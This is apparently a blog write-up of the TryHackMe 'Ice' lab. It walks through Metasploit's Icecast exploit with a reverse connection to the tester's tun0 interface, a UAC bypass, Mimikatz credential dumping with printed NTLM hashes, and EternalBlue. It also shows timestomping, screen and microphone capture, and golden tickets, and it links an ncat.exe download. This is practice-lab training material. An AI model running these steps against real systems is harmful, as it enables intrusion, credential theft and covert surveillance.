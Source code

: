 ```yaml
---
title: 'TryHackMe - Ice'
description: "Lorem Ipsum"
author: 'Tim Sonner'
date: '2023-07-08'
hero: '/thm-ice/thm-ice-hero.png'
published: true
---
```


![](/thm-ice/thm-ice-hero.png)  

## Recon  

**Nmap service scan**  

```  
nmap -sV -vv $IP 
```  

![](/thm-ice/thm-ice-nmap-sv.png)  

> This room covers the service running on port 8000 (Icecast).  


**Nmap vulnerability scan**  

``` 
nmap -script=vuln -vv $IP   
```  
![](/thm-ice/thm-ice-nmap-script-vuln.png)  

> This box is also vulnerable to Eternal Blue (ms17-010) CVE-2017-0143.  

## Research the exploit. The room wants us to research a specific CVE from 2004. 

**cvedetails.com results for "Icecast"**  

![](/thm-ice/thm-ice-cvedetails-icecast.png)  

> Hmmm... No CVE results from 2004.

**exploit-db.com results for "Icecast"**  

![](/thm-ice/thm-ice-exploitdb-icecast.png)  

> The correct CVE is linked in the exploit-db results (2004-10-6 or 2004-10-12)

**ChatGPT results for Icecast vulnerabilities from 2004**  

![](/thm-ice/thm-ice-chatgpt-icecast-2004.png)  

> We now know the CVE in question is CVE-2004-1561.  

**cvedetails.com results for CVE-2004-1561**  

![](/thm-ice/thm-ice-cvedetails-cve-2014-1561.png)  

> The vulnerability allows us to "Execute Code" by leveraging a buffer "Overflow".  

**Digging a bit deeper... searchsploit results for "Icecast"**  
![](/thm-ice/thm-ice-searchsploit.png)  

**View the exploit**

```  
cat /usr/share/exploitdb/exploits/windows_x86/remote/16763.rb
```  

## Exploit

**Metasploit search results for "icecast"**  
![](/thm-ice/thm-ice-metasploit-search-icecast.png)  

**Metasploit command**  

```  
msfconsole -x "use exploit/windows/http/icecast_header;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Note tun0 may not be the only tun interface. Run 'ip addr' to view interfaces, command above may need tun1.  

**Get our user ID and view the icecast process**  
![](/thm-ice/thm-ice-meterpreter-ps.png)  
> We get the same PID if we run getpid. That process is us.

**View all processes**  
![](/thm-ice/thm-ice-meterpreter-ps-regular.png)  

## Elevate our privileges  

**View our privileges**  
```  
getprivs
```  
![](/thm-ice/thm-ice-meterpreter-getprivs-1.png)

**Get suggested exploits**  

```  
run post/multi/recon/local_exploit_suggester
```  

![](/thm-ice/thm-ice-meterpreter-local-suggestions.png)  

**Use a suggested exploit**  

```  
use exploit/windows/local/bypassuac_eventvwr
```  

![](/thm-ice/thm-ice-metasploit-bypassuac-eventvwr.png)  

**Once the exploit has ran, view our sessions, 2 is elevated**  

![](/thm-ice/thm-ice-metasploit-sessions.png)  

**Our user ID is the same as in the un-elevated session**  
![](/thm-ice/thm-ice-meterpreter-getuid.png)

**Our privileges in the elevated session are different**  

![](/thm-ice/thm-ice-meterpreter-getprivs-2.png)  

**View processes in the elevated session. Notice different results between sessions? Our privileged shell can view owners of all processes**  

![](/thm-ice/thm-ice-meterpreter-ps-elevated.png)  

**Migrate to another session**  

![](/thm-ice/thm-ice-meterpreter-migrate.png)

**Load Mimikatz aka Kiwi**  

![](/thm-ice/thm-ice-meterpreter-load-kiwi.png)  


**Get credentials**  
![](/thm-ice/thm-ice-mimikatz-creds-all.png)  

**Dump the hashes with "hashdump"**  

```  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```  

**Spin up an RDP session utilizing the user Dark's credentials to authenticate**  

```  
run post/windows/manage/enable_rdp
```  
> This opens the RDP port and starts the service on the target if not already enabled.  

```  
rdesktop $IP
```  
> Remote desktop, just give it an IP. This command is ran on the localhost of course.  

![](/thm-ice/thm-ice-rdesktop.png)  

**View the target's desktop in real time in a browser window.**  

```  
screenshare
```  

![](/thm-ice/thm-mimikatz-screenshare.png)  

**Mess with timestamps.**  

```  
timestomp desktop.ini -m "07/08/2023 15:30:00"
```  

![](/thm-ice/thm-ice-timestomp.png)  

**Record audio from the taget device's microphone.**  

```  
record_mic
```  
> Don't think this works on this box...

**Create a Kerberos golden ticket to take you where you're going in life...**  

```  
golden_ticket_create
```  
> load kiwi is required for this command.  Also, this box isn't domain joined.  

**Let's p0wn the box using the eternal blue exploit**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"
```  

> Ridiculously EZ.  

![](/thm-ice/thm-ice-metasploit-eternal-blue.png)  

**Here's an exploit to try out and work on...**  

Icecast 2.0.1 (Win32) - Remote Code Execution (1) 

https://www.exploit-db.com/exploits/568  

**Here's a copy of ncat.exe in case we want to rewrite the exploit...**  

[https://timsonner.com/static/files/ncat.exe](/files/ncat.exe)  

# Donezo Funzo.











